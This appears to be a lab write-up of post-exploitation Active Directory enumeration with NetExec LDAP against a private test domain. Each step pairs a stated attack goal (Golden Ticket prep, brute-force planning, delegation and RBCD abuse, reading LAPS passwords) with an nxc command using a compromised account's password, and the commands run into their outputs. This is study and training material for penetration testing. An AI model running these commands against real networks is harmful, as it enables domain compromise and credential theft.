






Post-Exploitation Enumeration (NetExec LDAP)
NetExeckaneki_ghoul25 Hypothesis: To prepare for future persistence attacks (Module 9: Golden Ticket), we need the Domain SID. This identifier is constant across the domain and is a required component for forging Kerberos tickets.
nxc ldap 192.168.56.10 -u kaneki_ghoul25 -p 'TokyoGhoul#1' --get-sidS-1-5-21-4057973084-1432748986-1156288224ticketer.py in later stages.
Hypothesis: Before attempting password spraying or brute-force attacks against other users, we must identify the Account Lockout Threshold. If the threshold is 0 (None), we can brute-force aggressively without risk of causing a Denial of Service.
nxc ldap 192.168.56.10 -u kaneki_ghoul25 -p 'TokyoGhoul#1' --pass-pol0 (Disabled).
Hypothesis: We need to map the entire "Human Attack Surface" to identify naming conventions and potential high-value targets that were not found during initial reconnaissance.
nxc ldap 192.168.56.10 -u kaneki_ghoul25 -p 'TokyoGhoul#1' --userskaneki_ghoul25.svc_saiyan, svc_sharingan, svc_deathnote.
Hypothesis: We are looking for computers or users trusted for Unconstrained Delegation. If we compromise such an object, we can wait for a Domain Admin to connect to it and steal their TGT from memory.
nxc ldap 192.168.56.10 -u kaneki_ghoul25 -p 'TokyoGhoul#1' --trusted-for-delegationDC01$ (Domain Controller).
Hypothesis: We need to check the MachineAccountQuota (MAQ) attribute. If this value is > 0, any user (including our compromised kaneki) can create new computer accounts. This is the primary prerequisite for Resource-Based Constrained Delegation (RBCD) attacks.
nxc ldap 192.168.56.10 -u kaneki_ghoul25 -p 'TokyoGhoul#1' -M maq10.Hypothesis: We are searching for users with the adminCount=1 attribute. These users are protected by the AdminSDHolder process, indicating they are (or were) members of a privileged group like Domain Admins, Backup Operators, or Account Operators.
nxc ldap 192.168.56.10 -u kaneki_ghoul25 -p 'TokyoGhoul#1' --admin-countAdministrator, itachi_anbu01, krbtgt, gojo_satoru69, madara_uchiha91.
Hypothesis: If LAPS is deployed but permissions are misconfigured, a standard user might be able to read the local administrator passwords of workstations in cleartext.
nxc ldap 192.168.56.10 -u kaneki_ghoul25 -p 'TokyoGhoul#1' -M lapsms-Mcs-AdmPwd.
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}